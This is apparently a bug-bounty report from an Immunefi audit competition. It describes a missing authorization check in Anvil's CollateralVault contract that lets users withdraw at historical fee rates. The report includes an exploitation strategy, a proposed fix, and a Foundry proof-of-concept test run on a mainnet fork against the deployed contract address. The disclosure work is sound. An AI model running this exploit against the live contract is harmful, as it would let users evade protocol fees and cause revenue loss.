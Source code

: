 # #36540 \[SC-Insight] users can withdraw funds at incorrect fee rate

## #36540 \[SC-Insight] Users Can Withdraw Funds at Incorrect Fee Rate

**Submitted on Nov 5th 2024 at 15:07:44 UTC by @Blockian for** [**Audit Comp | Anvil**](https://immunefi.com/audit-competition/audit-comp-anvil)

* **Report ID:** #36540
* **Report Type:** Smart Contract
* **Report severity:** Insight
* **Target:** https://etherscan.io/address/0x5d2725fdE4d7Aa3388DA4519ac0449Cc031d675f
* **Impacts:**
  * Griefing (e.g. no profit motive for an attacker, but damage to the users or the protocol)
  * Protocol insolvency
  * Not paying proper fees -> Motive for an attacker + damage to the protocol

### Description

## Anvil Bug Report

### Users Can Withdraw Funds at Incorrect Fee Rate

#### Description

A vulnerability exists in the \`CollateralVault.sol\` contract, allowing users to withdraw funds at any historical fee rate, even after the protocol has increased fees.

#### Root Cause

When users withdraw funds, they are required to pay the current \`withdrawalFeeBasisPoints\` percent as a fee to the protocol. However, to preserve fee conditions for pre-existing reservations, the protocol applies the fee rate in effect at the time each reservation was created.

Typically, only the Collateralizable Contract should be authorized to interact with reservations. This restriction is generally enforced through a \`is \_collateralizableAddress in collateralizableContracts\` check. However, an exception in the \`\_requireCollateralizableAndDecreaseApprovedAmount\` function creates an unintended loophole:

\`\`\`javascript function \_requireCollateralizableAndDecreaseApprovedAmount( address \_collateralizableAddress, address \_accountAddress, address \_tokenAddress, uint256 \_amount ) internal { if (\_collateralizableAddress == \_accountAddress) { return; }

```
if (!collateralizableContracts[_collateralizableAddress]) {
    revert ContractNotApprovedByProtocol(_collateralizableAddress);
}

// ...
```

} \`\`\`

When \`\_collateralizableAddress == \_accountAddress\`, no check confirms that \`\_collateralizableAddress\` is an approved Collateralizable Contract. This oversight allows a user to exploit \`\_requireCollateralizableAndDecreaseApprovedAmount\`, treating their own address as a Collateralizable Contract and manipulating the reservation process.

Consequently, users can initiate, modify, and claim collateral from reservations, using historical fees based on historical rates instead of the current protocol rate.

#### Exploitation Strategy

1. **Initial Setup**: Alice deposits \`x\` funds as collateral by calling \`depositToAccount\`.
2. **Reservation Creation**: Alice creates a reservation with \`amount = 1\` using \`reserveClaimableCollateral\`.

From here, Alice can choose a strategy based on fee changes.

**If Fees Increase**

3. Alice modifies her reservation to hold her entire balance via \`modifyCollateralReservation\`.
4. Alice withdraws her funds at the lower, historical fee rate by calling \`claimCollateral\`.

**If Fees Decrease**

3. Alice cancels the reservation with \`releaseAllCollateral\`.
4. Alice has two options:
   * **Option 1**: Create a new reservation with \`amount = 1\` to "lock in" the lower fee rate in case fees rise in the future.
   * **Option 2**: Withdraw her funds directly at the current rate.

#### Impact

This vulnerability allows users to exploit historical fee rates, undermining the protocol's fee structure and potentially resulting in revenue loss for the protocol.

#### Proposed Solution

To resolve this issue, users cannot act as their own Collateralizable Contracts. Modifying the \`\_requireCollateralizableAndDecreaseApprovedAmount\` function to perform the \`collateralizableContracts\` check first would close this loophole:

\`\`\`javascript function \_requireCollateralizableAndDecreaseApprovedAmount( address \_collateralizableAddress, address \_accountAddress, address \_tokenAddress, uint256 \_amount ) internal { if (!collateralizableContracts\[\_collateralizableAddress]) { revert ContractNotApprovedByProtocol(\_collateralizableAddress); // Enforce contract verification first. }

```
if (_collateralizableAddress &#x3D;&#x3D; _accountAddress) {
    return;
}

// ...
```

} \`\`\`

### Proof of Concept

## POC

Run this foundry test on a fork of the mainnet

This is the command I used to run the test \`forge test --fork-url https://eth-mainnet.g.alchemy.com/v2/$ALCHEMY\_KEY --fork-block-number 21121956 --gas-price 0 --via-ir -vvvv\`

_**NOTE:**_ Make sure to add the \`setWithdrawalFeeBasisPoints\` and \`depositToAccount\` function signatures to the \`ICollateral\` interface before running.

\`\`\`js // SPDX-License-Identifier: UNLICENSED pragma solidity ^0.8.13;

import "forge-std/console.sol"; import {Test} from "forge-std/Test.sol"; import {ICollateral} from "../src/ICollateral.sol"; import {WETH} from "../src/WETH.sol";

contract MainTest is Test { ICollateral public collateral; WETH public weth;

```
address constant COLLATERAL &#x3D; 0x5d2725fdE4d7Aa3388DA4519ac0449Cc031d675f; // deployed instance of CollateralVault
address constant OWNER &#x3D; 0x4eeB7c5BB75Fc0DBEa4826BF568FD577f62cad21; // used to set fee
address constant ATTACKER &#x3D; 0x894D55bE079E7e19fe526Ac22B0786b7afE18E7e; // some random user who holds WETH
address constant WETH_ADDR &#x3D; 0xC02aaA39b223FE8D0A0e5C4F27eAD9083C756Cc2; // WETH address

function setUp() public {
    collateral &#x3D; ICollateral(COLLATERAL);
    weth &#x3D; WETH(WETH_ADDR);
}

function test_attack() public {
    uint256 weth_balance_before &#x3D; weth.balanceOf(ATTACKER);

    vm.startPrank(ATTACKER);
    address[] memory _tokenAddresses &#x3D; new address[](1);
    uint256[] memory _amounts &#x3D; new uint256[](1);
    _tokenAddresses[0] &#x3D; WETH_ADDR;
    _amounts[0] &#x3D; 100 ether;

    weth.approve(COLLATERAL, _amounts[0]);

    collateral.depositToAccount(ATTACKER, _tokenAddresses, _amounts);

    (uint96 _reservationId, uint256 _totalAmountReserved) &#x3D; collateral.reserveClaimableCollateral(ATTACKER, WETH_ADDR, 1);
    vm.stopPrank();


    // set the fee
    vm.startPrank(OWNER);
    collateral.setWithdrawalFeeBasisPoints(500); // change fee to 5%
    vm.stopPrank();

    vm.startPrank(ATTACKER);
    (uint256 _reservedCollateral, uint256 _claimableCollateral) &#x3D; collateral.modifyCollateralReservation(_reservationId, int256(_amounts[0] - uint256(_totalAmountReserved)));
    // claimable amount 99502487562189054726

    collateral.claimCollateral(_reservationId, _claimableCollateral, ATTACKER, false);
    vm.stopPrank();

    uint256 weth_balance_after &#x3D; weth.balanceOf(ATTACKER);

    console.log(&quot;amount lost to fee with attack strategy: %s&quot;, weth_balance_before - weth_balance_after);
}

function test_normal_withdraw() public {
    uint256 weth_balance_before &#x3D; weth.balanceOf(ATTACKER);

    vm.startPrank(ATTACKER);
    address[] memory _tokenAddresses &#x3D; new address[](1);
    uint256[] memory _amounts &#x3D; new uint256[](1);
    _tokenAddresses[0] &#x3D; WETH_ADDR;
    _amounts[0] &#x3D; 100 ether;

    weth.approve(COLLATERAL, _amounts[0]);

    collateral.depositToAccount(ATTACKER, _tokenAddresses, _amounts);
    vm.stopPrank();


    // set the fee
    vm.startPrank(OWNER);
    collateral.setWithdrawalFeeBasisPoints(500); // change fee to 5%
    vm.stopPrank();

    vm.startPrank(ATTACKER);
    collateral.withdraw(WETH_ADDR, 100 ether, ATTACKER);
    vm.stopPrank();

    uint256 weth_balance_after &#x3D; weth.balanceOf(ATTACKER);

    console.log(&quot;amount lost to fee in normal withdraw: %s&quot;, weth_balance_before - weth_balance_after);
}
```

} \`\`\`
